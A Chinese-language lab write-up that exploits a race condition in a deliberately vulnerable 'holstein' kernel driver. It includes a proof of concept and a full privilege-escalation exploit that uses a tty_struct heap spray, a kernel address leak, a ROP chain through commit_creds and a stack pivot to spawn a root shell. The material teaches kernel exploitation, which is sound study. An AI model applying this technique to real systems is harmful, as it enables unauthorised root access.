

# 漏洞模块分析

本次的实验环境中的启动脚本相较于前几次的实验环境有所不同，可以在启动选项中看到这样一个参数：

```
 -smp 2 \
```

smp参数将虚拟机的CPU设置为2，也就是两个核，而本次的实验对象是竞态条件的利用。

然后看一下本次漏洞驱动源码：

```c
static int module_open(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_open called\n");

  if (mutex) {
    printk(KERN_INFO "resource is busy");
    return -EBUSY;
  }
  mutex = 1;

  g_buf = kzalloc(BUFFER_SIZE, GFP_KERNEL);
  if (!g_buf) {
    printk(KERN_INFO "kmalloc failed");
    return -ENOMEM;
  }

  return 0;
}
```

在本次的module_open中引入了一个mutex（互斥锁）确保每次运行中的模块只能打开一次，所以本次UAF无法利用。

但是这个直接在驱动中定义的mutex互斥锁真的可以完全的避免UAF吗

考虑这样一种情况：

在理想情况下，有两个线程A和B，A首先将mutex置为1并进入相应的操作，此时B尝试对模块进行打开时，会被互斥锁截断。

但是问题在与线程A和B不一定有理想情况下的这个先后顺序，它们可能是同时同步请求mutex；由于在这个模块的实现中，对于互斥条件是进行了一个if判断，所以就有可能存在这样一种情况：

由于本次实验环境中的虚拟机存在两个核，所以A、B是有可能同时到达if判断，由于对mutex的赋值操作发生在判断之后，在一定的概率下是可能会出A、B几乎同时通过了if判断并完成了对mutex的赋值，那么此时就像是UAF实验中一样情况了。

可以写一个POC来验证这种情况的出现。

```c
#include <fcntl.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

int win = 0;

void *race(void *arg) {
  while (1) {
    while (!win) {
      int fd = open("/dev/holstein", O_RDWR);
      if (fd == 4) {
        win = 1;
      }
      if (win == 0 && fd != -1) {
        close(fd);
      }
    }
    if (write(3, "a", 1) != 1 || write(4, "A", 1) != 1) {
      close(3);
      close(4);
      win = 0;
    } else {
      break;
    }
  }
  return NULL;
}

int main() {
  pthread_t thread1, thread2;
  puts("[*] creating two threads");
  pthread_create(&thread1, NULL, race, NULL);
  pthread_create(&thread2, NULL, race, NULL);

  pthread_join(thread1, NULL);
  pthread_join(thread2, NULL);
  puts("[*] threads joined");

  char buf[0x400];
  int fd1 = 3, fd2 = 4;
  puts("[*] writting deadbeef to fd = 3");
  write(fd1, "deadbeef", 9);
  puts("[*] reading from fd = 4");
  read(fd2, buf, 9);
  printf("%s\n", buf);

  return 0;
}
```

在race函数中有一个判断 fd == 4 ，按照原理来说是同时需要fd = 3 和 fd = 4，这里只判断fd==4是因为在单个线程中无法判断另一个线程是否打开成功了，但是如果存在fd = 4大概率可以说明存在fd = 3，并且在并发的条件下大概是可以认为这个fd=3被另外一个线程使用了。

验证结果如下：



可以看到确实是通过竞态条件同时打开了两个holstein设备，并完成从两个不同fd中分别进行写入和读取。

# 利用：

本次的利用用到了一些CPU和线程上的操作吗，主要是设定线程与CPU的亲和度来完成线程与CPU的绑定，在实际操作中体现为这样一个函数：

```
sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set)
```

这个函数就是用于**设置一个进程（或线程）的 CPU 亲和性（CPU Affinity）**。CPU 亲和性是指将进程（或线程）绑定到特定的一个或多个 CPU 核心上运行，而不是让调度器将其调度到任何可用的 CPU 核心上。

并且本次利用中还有一个特殊情况是：

*由于SLOB内存分配器的存在，在每个CPU核心上进行的内存分配是相互隔离的，并且存在一定的数量限制；所以本次利用的堆喷要分别在两个CPU核心上进行来获得更高的成功率*

本次的具体利用手法如下：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <pthread.h>
#include <sched.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define SPRAY_NUM 800
#define BUF_LEN 0x400
#define OPS_OFFSET 0Xc3afe0

int win = 0;
long fd1, fd2;
uint64_t base = 0xffffffff81000000;

void spawn_shell();

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t user_rip = (uint64_t)spawn_shell;
uint64_t pop_rdi_ret = 0xffffffff810b13c5;
uint64_t pop_rcx_ret = 0xffffffff812fee2e;
uint64_t mov_rai_rax_rep_ret = 0xffffffff8165094b;
uint64_t commit_creds = 0xffffffff810723e0;
uint64_t prepare_kernel_cred = 0xffffffff81072580;
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
uint64_t stack_pivot = 0xffffffff81137da6;

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void *spray_thread(void *arg) {
  cpu_set_t *cpu_set = (cpu_set_t *)arg;
  if (sched_setaffinity(
          gettid(), sizeof(cpu_set_t),
          cpu_set)) // 设置线程的CPU亲和性，让堆喷线程绑定到目标CPU上
    perror("sched_setaffinity");
  long x; // 用于校验是否读取到了一些有意义的数据，也就是是否overlap成功
  long spray[SPRAY_NUM];

  printf("[*] spraying %d tty_struct objects\n", SPRAY_NUM);
  for (int i = 0; i < SPRAY_NUM; i++) {
    usleep(10);
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] ==
        -1) { // 出现分配失败则释放前面一些已经分配的tty_struct来回收fd资源
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void *)-1;
    }
    if (read(fd2, &x, sizeof(long)) == sizeof(long) && x) {
      // 判断是否堆喷到前面我们进行UAF后的那个目标fd上，判断的条件是：1.可以读取出有意义的值2.读取的值不为0(g_buf在最开始是全为0的)
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void *)spray[i];
    }
  }
  for (int i = 0; i < SPRAY_NUM; i++)
    close(spray[i]);
  return (void *)-1;
}

void *race(void *arg) {
  cpu_set_t *cpu_set = (cpu_set_t *)arg;
  if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set))
    perror("sched_setaffinity");
  while (1) {
    while (!win) {
      int fd = open("/dev/holstein", O_RDWR);
      if (fd == fd2) {
        win = 1;
      }
      if (win == 0 && fd != -1) {
        close(fd);
      }
    }
    if (write(fd1, "a", 1) != 1 || write(fd2, "A", 1) != 1) {
      close(fd1);
      close(fd2);
      win = 0;
    } else {
      break;
    }
    usleep(1000);
  }
  return NULL;
}

int create_overlap() {
  pthread_t th1, th2;
  char buf[0x10] = {0};
  cpu_set_t t1_cpu, t2_cpu;
  // cpu affinity
  CPU_ZERO(&t1_cpu);
  CPU_ZERO(&t2_cpu);
  CPU_SET(0, &t1_cpu);
  CPU_SET(1, &t2_cpu);

  puts("[*] opening /tmp to figure out next two fds");
  fd1 = open("/tmp", O_RDONLY);
  fd2 = open("/tmp", O_RDONLY);
  close(fd1);
  close(fd2);
  printf("[+] next two fds: fd1 <%ld>, fd2 <%ld>\n", fd1, fd2);

  puts("[*] running thread1 and thread2");
  pthread_create(&th1, NULL, race, (void *)&t1_cpu);
  pthread_create(&th2, NULL, race, (void *)&t2_cpu);
  pthread_join(th1, NULL);
  pthread_join(th2, NULL);

  puts("[+] reached race condition");
  puts("[*] checking whether this race condition is effective");
  write(fd1, "deadbeef", 9);
  read(fd2, buf, 9);
  if (strcmp(buf, "deadbeef") != 0) {
    puts("[-] bad luck :(");
    exit(1);
  }
  memset(buf, 0, 9);
  write(fd1, buf, 9);
  puts("[+] gotten effective race condtion");

  puts("[*] closing fd1 to create UAF situation");
  close(fd1); // create UAF

  long victim_fd = -1;
  // 分别尝试在两个CPU上进行堆喷，直到将tty_struct对象重叠到fd2上
  victim_fd = (long)spray_thread((void *)&t1_cpu);
  while (victim_fd == -1) {
    puts("[*] spraying on another CPU");
    pthread_create(&th1, NULL, spray_thread, (void *)&t2_cpu);
    pthread_join(th1, (void *)&victim_fd);
  }

  printf("[+] overlapped victim fd <%d>\n", (int)victim_fd);
  return victim_fd;
}

int main() {
  char buf[BUF_LEN] = {0};
  save_userland_state();

  int victim_fd1 = create_overlap();

  read(fd2, buf, 0x400);
  uint64_t kernel_base = *(uint64_t *)&buf[0x18] - OPS_OFFSET;
  uint64_t g_buf = *(uint64_t *)&buf[0x38] - 0x38;

  // 这一步是在检查页对齐，这个0xfff是在其低12位是否为0，如果不是则表明没有对齐
  if (kernel_base & 0xfff) {
    puts("[-] kbase is invalid; trying to fix it by adding 0x120");
    // 这里这个+0x120是在尝试在没有对齐的情况下修正基址，而这个修正是一种经验性修正
    kernel_base += 0x120;
  }

  printf("[*] kernel base: 0x%lx\n", kernel_base);
  printf("[*] g_buf1: 0x%lx\n", g_buf);

  uint64_t *rop_chain = (uint64_t *)&buf;
  *rop_chain++ = pop_rdi_ret - base + kernel_base;
  *rop_chain++ = 0; // NULL for prepare_kernel_cred
  *rop_chain++ = prepare_kernel_cred - base + kernel_base;
  *rop_chain++ = pop_rcx_ret - base + kernel_base;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rai_rax_rep_ret - base + kernel_base;
  *rop_chain++ = commit_creds - base + kernel_base;
  *rop_chain++ =
      swapgs_restore_regs_and_return_to_usermode - base + kernel_base + 22;
  *rop_chain++ = 0;
  *rop_chain++ = 0;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  *(uint64_t *)&buf[0x3f8] = stack_pivot - base + kernel_base;
  write(fd2, buf, BUF_LEN);
  puts("[*] rop chain build completed");

  int victim_fd2 = create_overlap();

  read(fd2, buf, 0x20);
  *(uint64_t *)&buf[0x18] = (uint64_t)(g_buf + 0x3f8 - 12 * 8);
  // 触发位置在fake ops table的第0xc个函数地址上，所以要先减去
  // 12 * 8来保证正好触发stack pivot

  puts("[*] second UAF");

  write(fd2, buf, 0x20);

  puts("[*] tring to hijack the control flow");

  ioctl(victim_fd2, 0, g_buf - 8);
  // 触发stack pivot，由于在gadget中存在一个多余的pop会使
  // rsp + 8，所以这里要提前减去

  puts("[-] failed to exploit");

  return 0;
}

// module_read = ffffffffc000002d
// module_write = ffffffffc0000099
```

其中的：*spray_thread*函数就是在完成前面所说的分别在不同的CPU核心上完成堆喷，并且通过一个对喷射出的堆块内容的读取来判定是否将tty_strcut喷射到了对应位置上。

另外就是本次的exp可能不是一次直接就能触发，可能需要多尝试几次，中间可能会出现内核崩溃或者段错误之类的情况。

